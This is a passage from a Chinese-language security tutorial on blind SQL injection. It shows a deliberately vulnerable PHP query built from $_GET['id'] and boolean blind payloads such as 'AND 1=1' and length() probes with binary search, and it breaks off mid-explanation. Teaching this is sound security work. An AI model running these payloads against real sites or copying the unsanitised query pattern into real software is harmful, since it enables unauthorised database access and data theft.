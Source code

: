 ### 盲注

盲注是指攻击者不能直接获取数据库中的信息，需要通过一些技巧来判断或推断出数据库中的数据。盲注主要分为布尔盲注和时间盲注两种。

我们还是以下面的句子为例子，不过相比于之前的不同，我们规定用户的查询没有回显，所以仅靠上面的方式我们无法获得数据，所以我们选用盲注。

```php
$sql = "SELECT username,password FROM users WHERE id = ".$_GET["id"];
```

#### 布尔盲注

对于上述语句，如果id的传参如下：

```sql
id = 1 AND 1=1
```

那么语句执行为：

```sql
SELECT username,password FROM users WHERE id = 1 AND 1=1;
```

![image-20230504191135714](https://nssctf.wdf.ink//img/WDTJ/202305041911785.png)

这里会要求两个条件为真，一是有`id=1`这个值，二是 `1=1`，这两个条件当然是满足的，特别是后面的这个条件。

那如果我让AND后面的条件为 `1 = 2`：

```sql
SELECT username,password FROM users WHERE id = 1 AND '1'='2';
# 这里 '1' = '2'，1 = 2 效果都是一样的
```

![image-20230504191548610](https://nssctf.wdf.ink//img/WDTJ/202305041915652.png)

可以看到返回为空，因为AND后面的条件不满足。

那么利用这个AND符号我们可以尝试下面的一些方式来获取信息：

- 使用 length(）获取长度信息

比如，我们用 length(）函数去爆破数据长度

```sql
id = 1 AND length(username)= NUM
```

那么语句执行为：

```sql
SELECT username,password FROM users WHERE id = 1 AND length(username)=1;
```



![image-20230504192130407](https://nssctf.wdf.ink//img/WDTJ/202305041921180.png)

当然 枚举长度的方式效率属实难蚌，我们可以使用大于小于符号 基于二分算法进行爆破：

```sql
id = 1 AND length(username)< NUM
id = 1 AND length(username)> NUM
```
